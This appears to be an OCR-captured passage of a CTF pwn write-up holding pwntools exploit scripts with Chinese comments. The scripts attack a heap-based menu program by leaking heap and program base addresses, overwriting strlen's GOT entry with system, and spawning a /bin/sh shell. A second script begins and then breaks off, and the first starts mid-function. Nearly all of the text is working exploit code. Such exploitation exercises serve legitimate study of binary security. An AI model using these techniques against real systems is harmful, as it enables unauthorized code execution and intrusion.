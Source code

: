 ```
        p.recvuntil("name:")
        p.sendline(name)
        p.recvuntil("punch?")
        p.sendline(str(n))

def show():
        p.recvuntil("(E)")
        p.sendline("S")



add('A'*0x70,1)
add('B'*0x80+"\x10",2)
add('C'*0x80,'3'+'d'*0x7f+'\x10')
#g()
# 泄漏程序基址
p.recvuntil("B"*8)
heap = u64((p.recvuntil(">",drop=True)).ljust(8,"\x00"))
print hex(heap)
add('E'*8+p64(heap-0x30),str(131441).ljust(0x80,'f')+p64(heap+0xc0)) # 131441-\
0x20171 size of top thunk
#g()
p.recvuntil("<")
func = u64((p.recvuntil(">",drop=True)).ljust(8,"\x00"))
pro_base = func-0xb30

#g()
print hex(pro_base)

strlen_got = 0x202040
print hex(pro_base+strlen_got)

#g()
# 泄漏got表
add('G'*8+p64(pro_base+strlen_got),str(131441-0x30-\
0x20).ljust(0x80,'f')+p64(heap+0xc0+0x30+0x20))
p.recvuntil("<")
strlenaddr = u64((p.recvuntil(">",drop=True)).ljust(8,"\x00"))
print hex(strlenaddr)
system = strlenaddr-0x45970 #offset system
print hex(system)

#g()
# system地址低四字节覆盖strlen_got低四字节
# 实现got表劫持
add('U'*0x10,str(system&0xffffffff).ljust(0x80,'h')+\
p64(strlen_got+pro_base-0x18))
add('/bin/sh;','5')
p.interactive()
```
Exp2: 
```
#/usr/env/bin python
#-*- coding: utf-8 -*-
from pwn import *
import sys
import os

def add(Name,Punch):
    io.recvuntil('(E)xit\n')
    io.sendline('A')
    io.recvuntil('Your name:\n')
    io.sendline(Name)
```